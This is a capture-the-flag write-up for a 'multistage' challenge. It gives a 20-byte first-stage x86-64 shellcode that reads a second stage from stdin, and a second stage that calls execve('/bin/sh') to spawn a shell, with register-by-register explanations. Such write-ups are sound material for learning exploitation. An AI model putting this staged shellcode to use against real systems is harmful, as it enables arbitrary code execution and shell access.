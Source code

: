 # multistage

This challenge reads shellcode from stdin and executes it. The problem is that it reads just 20 (0x14) bytes that are not enough to write a shellcode that spawns a shell.

The idea is to write a first stage that reads the second stage from stdin.

## First Stage

```c
mov rsi, rax
xor rax, rax
mov rdi, rax
mov rdx, 0x1000
syscall
; 2 * 0x90
```

- RSI: set to the address of the second stage
- RAX: set to 0 (SYS_read)
- RDI: set to 0 (stdin)
- RDX: set to 0x1000 (4096 bytes), the number of bytes to read (basically a random large enough number)

## Second Stage

```c
; 20*0x90 to align with the RIP
mov rdi, rsi
add rdi, 0x2a
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

- RDI: set to the address of the string "/bin/sh" (RSI + 0x2a)
- RAX: set to 0x3b (SYS_execve)
- RSI: set to 0 (NULL)
- RDX: set to 0 (NULL)

Why 0x2a? Because the first stage is 20 bytes long and the second one is 22 bytes long. So the total is 42 = 0x2a.

The complete exploit is in [script.py](script.py).
